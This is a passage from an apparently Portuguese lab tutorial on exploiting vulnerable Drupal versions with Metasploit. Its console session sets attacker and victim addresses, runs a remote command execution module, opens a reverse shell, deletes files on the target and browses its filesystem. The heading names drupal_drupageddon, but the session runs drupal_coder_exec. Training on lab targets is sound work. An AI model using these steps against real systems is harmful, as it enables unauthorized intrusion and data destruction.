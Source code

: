 Para mais informações leia:
* <https://owasp.org/www-pdf-archive/Shellshock_-_Tudor_Enache.pdf>
* <https://www.rapid7.com/db/modules/exploit/multi/http/apache_mod_cgi_bash_env_exec/>


#### Explorando com o ``drupal_drupageddon``

O Drupal é uma aplicação Web que nas versões 7.0 até 7.31, possui uma vulnerabilidade que permite executar parâmetros HTTP e executar SQL Injection.

Para essa exploração é necessário além do IP da vítima, o caminho para o Drupal, que no exemplo a seguir é o ``http://192.168.56.6/drupal/``.

```console
msf6 > search drupal
atching Modules
================

   #  Name                                           Disclosure Date  Rank       Check  Description
   -  ----                                           ---------------  ----       -----  -----------
   0  exploit/unix/webapp/drupal_coder_exec          2016-07-13       excellent  Yes    Drupal CODER Module Remote Command Execution
   1  exploit/unix/webapp/drupal_drupalgeddon2       2018-03-28       excellent  Yes    Drupal Drupalgeddon 2 Forms API Property Injection
   2  exploit/multi/http/drupal_drupageddon          2014-10-15       excellent  No     Drupal HTTP Parameter Key/Value SQL Injection
   3  auxiliary/gather/drupal_openid_xxe             2012-10-17       normal     Yes    Drupal OpenID External Entity Injection
   4  exploit/unix/webapp/drupal_restws_exec         2016-07-13       excellent  Yes    Drupal RESTWS Module Remote PHP Code Execution
   5  exploit/unix/webapp/drupal_restws_unserialize  2019-02-20       normal     Yes    Drupal RESTful Web Services unserialize() RCE
   6  auxiliary/scanner/http/drupal_views_user_enum  2010-07-02       normal     Yes    Drupal Views Module Users Enumeration
   7  exploit/unix/webapp/php_xmlrpc_eval            2005-06-29       excellent  Yes    PHP XML-RPC Arbitrary Code Execution


Interact with a module by name or index. For example info 7, use 7 or use exploit/unix/webapp/php_xmlrpc_eval

msf6 > use exploit/unix/webapp/drupal_coder_exec
msf6 exploit(unix/webapp/drupal_coder_exec) > set LHOST 192.168.56.5
LHOST => 192.168.56.5
msf6 exploit(unix/webapp/drupal_coder_exec) > set RHOSTS 192.168.56.6
RHOSTS => 192.168.56.6
msf6 exploit(unix/webapp/drupal_coder_exec) > set TARGETURI http://192.168.56.6/drupal/
TARGETURI => http://192.168.56.6/drupal/
msf6 exploit(unix/webapp/drupal_coder_exec) > exploit
[*] Started reverse TCP handler on 192.168.56.5:4444
[*] Cleaning up: [ -f coder_upgrade.run.php ] && find . \! -name coder_upgrade.run.php -delete
[*] Command shell session 1 opened (192.168.56.5:4444 -> 192.168.56.6:38224) at 2022-09-20 05:34:54 -0400
ls
coder_upgrade.run.php
cd /
ls
bin
boot
```
